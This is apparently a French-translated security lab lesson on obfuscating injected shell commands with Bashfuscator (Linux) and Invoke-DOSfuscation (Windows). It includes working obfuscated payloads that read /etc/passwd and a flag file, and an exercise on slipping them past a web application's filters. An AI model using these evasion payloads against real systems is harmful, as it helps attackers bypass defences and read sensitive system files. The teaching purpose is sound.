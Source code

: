 Outils d'évasion
=============

* * * * *

Si nous avons affaire à des outils de sécurité avancés, nous ne pourrons peut-être pas utiliser les techniques d'obfuscation manuelles de base. Dans de tels cas, il peut être préférable de recourir à des outils d'obfuscation automatisés. Cette section présente quelques exemples de ces types d'outils, un pour `Linux` et un autre pour `Windows`.

* * * * *

Linux (Bashfuscator)
--------------------

Un outil pratique que nous pouvons utiliser pour masquer les commandes bash est [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). Nous pouvons cloner le référentiel à partir de GitHub, puis installer ses exigences, comme suit :

```
dsgsec@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
dsgsec@htb[/htb]$ cd Bashfuscator
dsgsec@htb[/htb]$ python3 setup.py install --user

```

Une fois l'outil configuré, nous pouvons commencer à l'utiliser à partir du répertoire `./bashfuscator/bin/` . Il existe de nombreux indicateurs que nous pouvons utiliser avec l'outil pour affiner notre commande obfusquée finale, comme nous pouvons le voir dans le menu d'aide `-h`  :

```
dsgsec@htb[/htb]$ cd ./bashfuscator/bin/
dsgsec@htb[/htb]$ ./bashfuscator -h

utilisation : bashfuscator [-h] [-l] ...SNIP...

arguments facultatifs :
   -h, --help affiche ce message d'aide et quitte

Choix du programme :
   -l, --list Liste tous les obfuscateurs, compresseurs et encodeurs disponibles
   -c COMMANDE, --commande COMMANDE
                         Commande d'obscurcir
...COUPER...

```

Nous pouvons commencer par fournir simplement la commande que nous voulons masquer avec l'indicateur `-c`  :

```
dsgsec@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutateurs utilisés : Token/ForCode -> Command/Reverse
[+] Charge utile :
  ${*/+27\[X\(} ...SNIP... ${*~}
[+] Taille de la charge utile : 1664 caractères

```

Cependant, exécuter l'outil de cette manière choisira au hasard une technique d'obscurcissement, qui peut produire une longueur de commande allant de quelques centaines de caractères à plus d'un million de caractères ! Ainsi, nous pouvons utiliser certains des drapeaux du menu d'aide pour produire une commande obscurcie plus courte et plus simple, comme suit :

```
dsgsec@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutateurs utilisés : Token/ForCode
[+] Charge utile :
eval "$(W0=(w \ t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";} ;)"
[+] Taille de la charge utile : 104 caractères

```

Nous pouvons maintenant tester la commande générée avec `bash -c ''`, pour voir si elle exécute la commande souhaitée :

```
dsgsec@htb[/htb]$ bash -c 'eval "$(W0=(w \ t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

racine:x:0:0:racine:/racine:/bin/bash
...COUPER...

```

Nous pouvons voir que la commande obscurcie fonctionne, tout en semblant complètement obscurcie, et ne ressemble pas à notre commande d'origine. Nous pouvons également remarquer que l'outil utilise de nombreuses techniques d'obscurcissement, y compris celles dont nous avons parlé précédemment et bien d'autres.

Exercice : essayez de tester la commande ci-dessus avec notre application Web, pour voir si elle peut contourner les filtres avec succès. Si ce n'est pas le cas, pouvez-vous deviner pourquoi? Et pouvez-vous faire en sorte que l'outil produise une charge utile de travail ?

* * * * *

Windows (DOSfuscation)
----------------------

Il existe également un outil très similaire que nous pouvons utiliser pour Windows appelé [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Contrairement à `Bashfuscator`, il s'agit d'un outil interactif, car nous l'exécutons une fois et interagissons avec lui pour obtenir la commande masquée souhaitée. Nous pouvons à nouveau cloner l'outil depuis GitHub, puis l'invoquer via PowerShell, comme suit :

```
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> aide

MENU AIDE :: Options disponibles indiquées ci-dessous :
[*] Tutoriel d'utilisation de cet outil TUTORIEL
...COUPER...

Choisissez l'une des options ci-dessous :
[*] BINARY Syntaxe binaire obfusquée pour cmd.exe et powershell.exe
[*] ENCODAGE Encodage des variables d'environnement
[*] PAYLOAD Charge utile masquée via DOSfuscation

```

Nous pouvons même utiliser le `tutoriel` pour voir un exemple du fonctionnement de l'outil. Une fois que nous sommes définis, nous pouvons commencer à utiliser l'outil, comme suit :

```
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encodage
Invoke-DOSfuscation\Encoding> 1

...COUPER...
Résultat:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent% TMP :~-19,-18%%ALLUSERSPROFILE :~-4,-3%esktop\flag.%TMP :~-13,-12%xt

```

Enfin, nous pouvons essayer d'exécuter la commande obscurcie sur `CMD`, et nous voyons qu'elle fonctionne bien comme prévu :

```
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4, -3%ent%TMP :~-19,-18%%ALLUSERSPROFILE :~-4,-3%esktop\flag.%TMP :~-13,-12%xt

test_flag

```